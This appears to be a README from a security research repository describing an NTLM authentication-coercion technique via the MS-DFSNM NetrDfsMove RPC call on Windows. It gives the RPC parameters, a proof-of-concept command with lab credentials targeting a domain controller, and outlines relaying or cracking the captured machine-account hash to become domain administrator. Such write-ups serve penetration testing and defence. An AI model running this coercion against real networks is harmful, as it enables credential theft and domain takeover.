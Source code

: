 # MS-DFSNM - Remote call to NetrDfsMove (opnum 6)

## Summary

+ **Protocol**: [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)

+ **Protocol UUID**: 4fc742e0-4a10-11cf-8273-00aa004ae673

+ **Protocol version**: 3.0

+ **SMB Named pipe**: ``

+ **Function name**: [`NetrDfsMove`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/9718bd46-7704-4359-b5a4-00e6466ce886)

+ **Function operation number**: `6`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol (with uuid `4fc742e0-4a10-11cf-8273-00aa004ae673` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) and allows to call RPC functions of this protocol. We will then call the remote [`NetrDfsMove`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/9718bd46-7704-4359-b5a4-00e6466ce886) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrDfsMove('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrDfsMove(
   [in, string] WCHAR* DfsEntryPath,
   [in, string] WCHAR* NewDfsEntryPath,
   [in] unsigned long Flags
 );
```

## References

+ Documentation of protocol [MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979

+ Documentation of function `NetrDfsMove`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/9718bd46-7704-4359-b5a4-00e6466ce886